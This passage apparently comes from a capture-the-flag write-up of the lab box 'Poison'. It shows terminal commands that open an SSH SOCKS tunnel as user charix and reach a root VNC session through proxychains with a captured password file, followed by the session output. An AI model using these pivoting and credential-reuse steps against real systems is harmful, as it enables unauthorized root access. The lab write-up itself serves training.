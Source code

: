     root@kali# ssh charix@10.10.10.84 -D 8081





    root@kali# proxychains vncviewer 127.0.0.1:5901 -passwd secret
    ProxyChains-3.1 (http://proxychains.sf.net)
    |S-chain|-<>-127.0.0.1:8081-<><>-127.0.0.1:5901-<><>-OK
    Connected to RFB server, using protocol version 3.8
    Enabling TightVNC protocol extensions
    Performing standard VNC authentication
    Authentication successful
    Desktop name "root's X desktop (Poison:1)"
    VNC server default format:
      32 bits per pixel.
      Least significant byte first in each pixel.
      True colour: max red 255 green 255 blue 255, shift red 16 green 8 blue 0
    Using default colormap which is TrueColor.  Pixel format:
      32 bits per pixel.
      Least significant byte first in each pixel.
      True colour: max red 255 green 255 blue 255, shift red 16 green 8 blue 0
    Same machine: preferring raw encoding



![](/img/poison_vnc-root.png)

## Poison Configuration Details

With full access to the box, it's always good to see what's actually
there, and if things were set up as we pictured them as we worked
through it.

### Website
